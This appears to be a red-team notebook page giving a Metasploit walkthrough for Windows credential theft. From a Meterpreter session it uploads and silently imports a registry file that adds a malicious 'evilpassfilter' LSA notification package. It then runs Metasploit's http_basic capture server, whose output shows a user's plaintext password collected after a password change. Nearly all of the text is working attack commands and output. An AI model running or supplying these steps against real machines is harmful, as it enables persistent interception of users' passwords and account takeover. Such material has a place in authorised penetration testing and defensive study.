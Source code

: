# Metasploit

## Modify The Registry Entry

Query the notification packages list.

```
meterpreter > reg queryval -k HKLM\\SYSTEM\\CurrentControlSet\\Control\\Lsa -v "Notification Packages"
Key: HKLM\System\CurrentcontrolSet\Control\Lsa
Name: Notification Packages
Type:
Data: sceclirassfm
```

 What you can't see here since Metasploit isn't showing the line breaks is that there are two there by default.

```
scecli
rassfm
```

```
Windows Registry Editor Version 5.00

[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa]
"Notification Packages"=hex(7):73,00,63,00,65,00,63,00,69,00,72,00,6e,00,\
  00,00,72,00,61,00,73,00,73,00,66,00,6d,00,72,00,6e,00,00,00,65,00,76,00,69,\
  00,6c,00,70,00,61,00,73,00,73,00,66,00,69,00,6c,00,74,00,65,00,72,00,00,00,\
  00,00
```

Upload the registry file then import it.

```
meterpreter > upload grab_credentials.reg .
[*] uploading  : grab_credentials.reg -> .
[*] uploaded   : grab_credentials.reg -> .\grab_credentials.reg
meterpreter > execute -Hf regedit.exe -a "/s grab_credentials.reg"
Process 2628 created.
```

```
meterpreter > reg queryval -k HKLM\\SYSTEM\\CurrentControlSet\\Control\\Lsa -v "Notification Packages"
Key: HKLM\System\CurrentcontrolSet\Control\Lsa
Name: Notification Packages
Type:
Data: sceclirnrassfmrnevilpassfilter
```

## Retrieve Credentials

### Web Server

```
msf > use auxiliary/server/capture/http_basic

msf auxiliary(http_basic) > set URIPATH /
URIPATH => /
msf auxiliary(http_basic) > run -j
[*] Auxiliary module execution completed
[*] Listening on 0.0.0.0:80...
[*] Using URL: http://0.0.0.0:80/
[*]  Local IP: http://192.168.92.106:80/
[*] Server started.
msf auxiliary(http_basic) > 
```

 Then we wait for a password to be changed.

```
msf auxiliary(http_basic) > 
[*] 192.168.92.106   http_basic - Sending 401 to client
[+] 192.168.92.106 - Credential collected: "jack:ASDqwe123" => /
```

### SMB Share

TODO: Do a step by step (refer to the backlink to file transfer)

---
## References

### Backlinks

- [[Password Change Notification|Malware Development: Password Change Notification]]

- [[07 - Tactics & Techniques & Procedures Phases/F - Post Exploitation/0x04 - File Transfer and Data Exfiltration/Windows/Network Ports/SMB/Manual/Server|File Transfer and Data Exfiltration: Windows SMB]]